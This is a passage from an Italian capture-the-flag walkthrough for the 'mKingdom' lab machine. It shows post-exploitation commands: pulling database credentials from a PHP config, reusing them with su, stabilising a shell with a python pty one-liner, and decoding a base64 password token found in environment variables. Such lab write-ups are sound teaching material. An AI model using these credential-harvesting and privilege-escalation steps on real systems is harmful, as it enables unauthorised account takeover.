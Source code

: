 ```
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];

```
abbiamo le credenziali db di toad
```
'database' => 'mKingdom'
'username' => 'toad',
'password' => 'toadisthebest',
```
passiamo all'account di Toad

```
su toad
```
	toadisthebest
abbiamo qualche problema stabbilizziamo il terminale
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
ora possiamo passare a toad
```
su toad
```
	toadisthebest
facciamo un po di ricerche ma non troviamo il flag user.txt associato a Mario
topo tanto troviamo nelle variabili d'ambiente qualcosa..
```
env
```
```
toad@mkingdom:/var/www/html/app/castle/application/files/9517/4792/4996$ env
env
APACHE_PID_FILE=/var/run/apache2/apache2.pid
XDG_SESSION_ID=c2
SHELL=/bin/bash
APACHE_RUN_USER=www-data
USER=toad
LS_COLORS=
PWD_token=aWthVGVOVEFOdEVTCg==
```

```
PWD_token=aWthVGVOVEFOdEVTCg==
```

```
echo "aWthVGVOVEFOdEVTCg==" | base64 -d
```
```
ikaTeNTANtES
```
probabile password di Mario 

